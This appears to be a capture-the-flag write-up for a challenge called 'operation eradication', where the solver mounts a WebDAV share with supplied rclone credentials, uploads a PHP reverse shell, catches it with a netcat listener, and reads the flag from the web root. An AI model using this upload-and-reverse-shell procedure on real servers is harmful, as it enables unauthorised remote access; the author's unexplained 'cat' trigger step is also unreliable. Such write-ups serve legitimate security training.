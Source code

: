 
# operation eradication

## instrucations
Oh no! A ransomware operator encrypted an environment, and exfiltrated data that they will soon use for blackmail and extortion if they don't receive payment! They stole our data!

Luckily, we found what looks like a configuration file, that seems to have credentials to the actor's storage server... but it doesn't seem to work. Can you get onto their server and delete all the data they stole!?

with that you get some credentials:
```
type = webdav
url = http://localhost/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5
```
## how to solve

the credentials are for rclone 

```bash
# get the path to rclone config 
rclone config file  
# replace it with given credentials, replace url with given one i.e. http://chal.ctf.games:30337/webdav

# to mount the remote webdav directory:
rclone mount DEFAULT:/ ./mount-dir/  

# download reverse shell from: https://pentestmonkey.net/tools/web-shells/php-reverse-shell
# modify ip and port
# copy php reverse shell in webdav directory

# on server start listening for reverse shell
nc -v -n -l -p 1234

# now execute the php reverse shell with cat
# idk why this works but it worked
cat php-reverse-shell.php

# now on the server with netcat a shell should pop up
# the flag is in /var/www/html/index.php
```

## resources
https://rclone.org/docs/
